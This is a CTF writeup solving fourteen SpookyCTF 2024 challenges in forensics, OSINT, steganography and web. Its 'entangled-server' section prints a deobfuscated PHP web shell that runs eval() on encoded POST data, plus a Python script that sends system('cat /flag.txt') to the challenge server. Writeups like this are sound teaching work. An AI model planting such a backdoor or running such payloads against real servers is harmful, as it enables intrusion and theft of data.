





# SpookyCTF 2024 - Full Writeup


## Intro

This CTF was fun and I would recommend it for beginners ! On par with DeadFace.

This writeup contains all the challanges that I have solved (14 challenges).

The categories were : Forensics, Osint, Steganography, Misc and Web (Well, technically it's Reverse).

<!--more-->

## memory-puzzle - Forensics

### Description
The Consortium has concealed a critical file within a memory dump, protected by layers of digital obfuscation. Led by Simon Letti, participants must sift through the volatile memory landscape to locate a plaintext key that unlocks the encrypted file. Time is of the essence, as Roko's Basilisk threatens to distort the data with each passing moment. Can you unravel the puzzle before the Basilisk intervenes?

"Basilisk's whisper will not wait" echos through your mind as you enter the file.

(Note: If you choose to use volatility2.6, use profile Win10x64_19041)

### Explanation

Keep digging with Volatility...

You'll have to manually keep looking till you find flag.enc and system-update.exe.

reverse engineer system-update.exe you'll find the flag was AES encrypted and the key was ```SuperSecretKey12```

So I wrote a decryption script : 

```c
#include <openssl/evp.h>
#include <stdio.h>
#include <string.h>

int main() {
    FILE *enc_file = fopen("flag.enc", "rb");
    FILE *dec_file = fopen("flag_decrypted.txt", "wb");

    if (!enc_file || !dec_file) {
        fprintf(stderr, "Error opening files.\n");
        return 1;
    }

    const char *key = "SuperSecretKey12"; // Same key used in encryption
    unsigned char iv[16] = {0}; // All zero IV as in encryption
    unsigned char enc_buf[1024], dec_buf[1024 + EVP_MAX_BLOCK_LENGTH];
    int len, dec_len;

    EVP_CIPHER_CTX *ctx = EVP_CIPHER_CTX_new();
    if (!ctx) {
        fprintf(stderr, "Failed to create EVP_CIPHER_CTX\n");
        return 1;
    }

    if (EVP_DecryptInit_ex(ctx, EVP_aes_128_cbc(), NULL, (unsigned char *)key, iv) != 1) {
        fprintf(stderr, "Failed to initialize decryption\n");
        EVP_CIPHER_CTX_free(ctx);
        return 1;
    }

    while ((len = fread(enc_buf, 1, sizeof(enc_buf), enc_file)) > 0) {
        if (EVP_DecryptUpdate(ctx, dec_buf, &dec_len, enc_buf, len) != 1) {
            fprintf(stderr, "Decryption update failed\n");
            EVP_CIPHER_CTX_free(ctx);
            return 1;
        }
        fwrite(dec_buf, 1, dec_len, dec_file);
    }

    if (EVP_DecryptFinal_ex(ctx, dec_buf, &dec_len) != 1) {
        fprintf(stderr, "Final decryption step failed\n");
        EVP_CIPHER_CTX_free(ctx);
        return 1;
    }
    fwrite(dec_buf, 1, dec_len, dec_file);

    EVP_CIPHER_CTX_free(ctx);
    fclose(enc_file);
    fclose(dec_file);
    printf("Decryption complete. Output saved to flag_decrypted.txt\n");

    return 0;
}
```


---

## wont-somebody-think-of-the-children - Forensics

### Description 

If Loab is back, we might need the council to help us out. The problem is that Anna sent Maya looking for them but she still hasn't come back. This is her last known location... Maybe you can help find her.

I'd go, but I really don't want to be around those spooky ghost orphans.

### Explanation

SVGs are like onions. Onions have layers, SVGs have layers. Get it ?

If you open up an SVG file you'll find that it has a bunch of base64 encoded images. So I wrote a script to extract all the images : 

```python
import re
import base64
import os

## Read SVG file
with open("orphans2.svg", "r") as file:
    svg_content = file.read()

## Find all base64 image data using regex
image_data = re.findall(r'href="data:image/png;base64,([^"]+)"', svg_content)

## Create a folder to save extracted images
output_folder = "extracted_images"
os.makedirs(output_folder, exist_ok=True)

## Decode and save each image
for i, data in enumerate(image_data, 1):
    img_data = base64.b64decode(data)
    img_path = os.path.join(output_folder, f"image_{i}.png")
    with open(img_path, "wb") as img_file:
        img_file.write(img_data)

print(f"Extracted {len(image_data)} images to '{output_folder}'")
```

---

## strange-sightings - Misc

### Description

NICC agents were sent this video by an anonymous source. What does it mean?!

Warning: The video is very spooky.

### Explanation

The video was indeed spooky, there was a lot of fake signs which wasted me a lot of time but in the end I figured out that the light switching on and off clip had to be a morse code.

Using pen and paper I wrote down the morse code which ended up being an address, I scanned it with nmap and found that the FTP port was open, connected to it, got an error that mentioned anonymity so I logged in as anonymous and there it was, the flag !


---

## the-true-bloop - Misc

### Description

In 1997, an underwater anomaly was recorded by the NOAA (National Ocean and Atmospheric Administration). No explanation for the sound could be given at the time, but eventually a widely accepted answer elaborating on glacial movements surfaced. At least, that's what we thought. Recently, in her exploits across time, Mary Morse of NICC has ended up in 1997 to uncover the "truth" as she playfully calls it. Her whereabouts are currently unknown (as always), but a series of tones were presumably sent by her deep beneath the sea. They were recorded, augmented, and kept for years by NOAA staff in addition to the titular bloop. Perhaps she discovered something so foreboding it had to be hidden? We were able to crack the first part - g4ed_j05_dX_b0Ww0q_0f_wu4rcK. Looks to be a Vigenere cipher encoded with a key. Your job is to find the key to go with this cipher and break it.

(After cracking the Vigenere cipher, place it between the curly braces in NICC{}!).

### Explanation 

We have 4 wav files, and I play the guitar (flex), so I figured out the notes easily (coughcough perfect pitch), the key was "DEAD" or Dsus2 (another flex). Use the vigenere cipher to decode the flag.


---

## two-frames-one-champ - Misc

### Description

Lake Champlain has always been a hotspot for mysterious sightings, but it seems like something recently odd came up. Apparently an old cryptid hunter went missing after attempting to reveal his findings. Rumors have been spreading that the cryptid hunter was once affiliated with the Consortium. But anything they left behind? An broken hard drive. Simon was able to recover the hard drive. Unfortunately, he was only able to recover two images files that are corrupted, likely tampered by the Consortium. Anna is tasking you to JOIN Simon piece this puzzle TOGETHER to uncover what the Consortium are hiding.

### Explanation

Both images are corrupted, thankfully only the header is corrupted, we know they're PNGs so we know what the actual header is.

Then use stegsolve to xor both images : 



---

## among-us - Osint
### Description 
The Jersey Devil is opening up a secondary shop in his hometown of the New Jersey Pine Barrens, with the other in dystopian New York City. With the opening of the shop in New Jersey, he would need to spend more time here. A video game is said to have the name of the shop the Jersey Devil owns. Find the name of the game and the name of the shop:

Example: NICC{Name_of_Video_Game_Name_of_Shop}

### Hint

The sequeal to this game is set to release this year.

### Explanation

The title itself is a hint, nope not the hit game among us, it's actually the wolf among us. 

At first I thought the place was real, but there's nothing in Pine Barrens, so I googled Among us Jersey Devil and found this [wiki page](https://fables.fandom.com/wiki/Jersey_Devil) where it states that the Jersey Devil owned a shop in Fabletown NYC called Lucky Pawn !


---

## cryptid-chats - Osint

### Description
We know the Dr. Tom is currently on the lookout for another cryptid. We think he might have made a mistake and is instead following someone in a costume. We got a tip that Dr. Tom was harassing a famous actor who happened to be in costume for their upcoming movie and was simply visiting a business because they had posted about him recently on their social media. We hacked into Dr. Tom's phone and got a picture from where he started and the path he took. It must've been pretty realistic - do you know what the character is called?

### Explanation

You'll have to simply follow the path Dr. Tom took, Some places don't have streetmaps like the bike path so you'll have to switch views.

As you head to the drug store the brick sign is NOT the stone sign, you'll have to keep going until you find this place:




Look up their facebook page and there you'll find a pic of Ethan Hawke :


So to save time I just googled Ethan Hawke upcoming movie, he's playing The Grabber.

---

## perfect-nba-fit - Osint
### Description 

NJIT has a pretty good basketball team, but we could use some taller players to give us a big step in the right direction. We heard there was a creature in NJ who is a perfect fit, but we've got to find where they are. We heard they were last seen about 5 - 7 years ago, but can't remember the specifics - just that it was here in NJ and within a couple of hours of the school. Most of us commute anyway, so what's an hour or so to help our Highlanders get the edge?

Can you find where they were last seen? We need to be as specific as possible- anything less than a Class A sighting in NJ will not do. Get the exact day of the month, the approximate time using the 24 hour format, nearest road number and nearest town.

NICC{DayOfTheMonth_HH:MM_Road-Name_Town-Name}

Example: NICC{10_20:30_Interstate-280_Newark}

### Explanation

Big step is a keyword, the perfect fit is no other than Big Foot himself. 
I searched Big foot sightings on Google and found this [site](https://www.bfro.net/gdb/). Found a Class A sighting in New Jersey and gave the report to GPT to pretty much extract what I wanted cause I'm too lazy to read :)


---

## they-have-returned - Osint

### Description
Some user has came back nearly a year and a half after no known online activites to wreck havoc across the timeline. Their activity seems to suggest an attack is coming soon!

## Hint

Navigate to the arrivals channel for possible leads to the suspected user.

### Explanation

A bit guessy, but to solve it you had to figure out that they're referencing the Terminator's famous quote : "I'll be back".  

Anyway there's someone on the discord that has Arnold as their avatar, Check their profil you'll find their Twitter from there you can get the flag.

---

## photo-clue - Steganography

### Description 

A seemingly innocuous old photo file has emerged, but Mary Morse suspects it may hold the key to deciphering The Consortium's next move. Your task is to analyze the metadata, uncover the true nature of the file, and submit the flag before The Consortium acts. Time is running out—can you crack the mystery behind the photo?

(Note: If you choose to use volatility2.6, use profile Win10x64_19041)

### Explanation

Run volatility on the raw file, list all files and you'll find an Image called REDACTED, extract it, run steghide on it, and you'll find a pdf file inside.

the file is password protected, the password was spooky2024 (You can either guess it or bruteforce it using rockyou.txt).


---

## set-your-intentions-right - Steganography
### Description 
Mary and Maya wanted to spend the rest of their Friday evening having more fun. They decided to go raundonauting, they set their intentions to paranormal and it sounds like they needed to end up hiding from what they found.

### Explanation

Another easy one, just look at the spectrogram of the audio.




---

## whispers-in-morse - Steganography

### Description

Mary got a letter from Maya talking about seeing a cryptid sighting but doesn't want other people to know, the only thing attached is this picture? She wonders if there could be a secret message hidden inside.

### Explanation

Check the strings, last line is "Password: M.A.__.R.Y", use steghide to get the flag.txt file.

---

## entangled-server - Web

### Description

A NICC agent found an old abandoned server with some very suspicious files on it. We have found the file it was hosting on a webserver but it seems like it was very heavily obfuscated. Can you figure out how to get in?

The flag is located at /flag.txt on the server.

### Explanation

You'll have to deobfuscate the code line by line, it's more of a reverse challenge than a web one.

You'll end up with this code : 

```php
<?php

// Disable error output and execution time limits
ini_set("error_log", null);
ini_set("log_errors", 0);
ini_set("max_execution_time", 0);
set_time_limit(0);

// Set the authentication flag
$flag = "5p1n-th3-51lly-5tr1ng5";

// XOR function for encoding and decoding
function xorEncrypt($input, $key) {
    $output = "";
    $keyLength = strlen($key);
    for ($i = 0, $j = 0; $i < strlen($input); $i++, $j++) {
        if ($j == $keyLength) $j = 0; // Repeat the key if it's shorter than input
        $output .= chr(ord($input[$i]) ^ ord($key[$j]));
    }
    return $output;
}

// Decode function that uses the flag as a key for XOR
function doubleXorDecode($input, $key) {
    global $flag;
    return xorEncrypt(xorEncrypt($input, $flag), $key);
}

// Initialize input variables from $_POST
$encodedPayload = null;
$postKey = null;

if (empty($encodedPayload) && !empty($_POST)) {
    foreach ($_POST as $key => $value) {
        $encodedPayload = $value;
        $postKey = $key;
        break;
    }
}

// Decode and check the input
if ($encodedPayload) {
    $decodedInput = json_decode(doubleXorDecode(base64_decode($encodedPayload), $postKey), true);

    if (isset($decodedInput["ak"]) && $decodedInput["ak"] === $flag) {
        if ($decodedInput["a"] === "e") {
            eval($decodedInput["d"]);
        }
    }
}

exit();

?>
```

There's an eval at the code, meaning we can manage to execute cat /flag.txt. BUT, there's the xor function, but we all know how xor works, it's reversible.

output = "5p1n-th3-51lly-5tr1ng5" xor (input xor key) [!we can choose key and input, remember that!]
if key = 0 : 
    output = "5p1n-th3-51lly-5tr1ng5" xor input xor "5p1n-th3-51lly-5tr1ng5"

output now matches input.

Now it's simpler. All we need to do is : Create a payload that contains "ak","a" and "d", the payload must be base64 encoded THEN xored with "5p1n-th3-51lly-5tr1ng5" which is our key.

### Script

```python
import base64
import json
import requests

payload = {
    "ak": "5p1n-th3-51lly-5tr1ng5",    
    "a": "e",
    "d": "system('cat /flag.txt');"
}

payload = json.dumps(payload)
payload = base64.b64encode(payload.encode()).decode()

data = "5p1n-th3-51lly-5tr1ng5="+payload
headers = {"Content-Type": "Application/X-WWW-FORM-URLENCODED"}
response = requests.post("http://entangled-server.niccgetsspooky.xyz:1337/", data=data, headers=headers)

print(response.text)
```


---

## Future Plans - Web

### Description 

That mysterious G0ldenFalc0ln7 is up to something. He's been pretty hard to tie down in the past, but Anna found a blog of his. It looks like he's gotten around to planning something big.

We still don't know whether he's good, bad, or just a little bit of both. For all we know, he could be one of our own.

With everyone so distracted by the annual release of cryptids and creepy crawlies, he seems to be leveraging the chaos to his advantage to communicate with his faction -- whoever that is.

Find out what he's got planned if you can - we need to know what we're up against before the spring!

https://www.niccgetsspooky.xyz

### Hint#1

If you think about it, I think you'll get it.

### Hint#2

* If you want the flag:
  * You can read the description
  * You can read the website
  * You can get the flag
* If you want the ban:
  * You can run a fuzzer or dirbuster

### Explanation 

This one's good, really clever. If you read the blog you'll find this :


The challenge revolves around Time, the future, time travel, the abductions, 1973, Ray guns, the borealis, Hyperborea...🎵 Alien, magical, flyin', and all. 🎵

Right, just add the following header to your request :

```If-Modified-Since: Fri, 18 Apr 2025 15:14:19 GMT```

Nothing happens unless you head to plans, that's where you'll find your future flag. Congratulations, you have invented time travel.

---


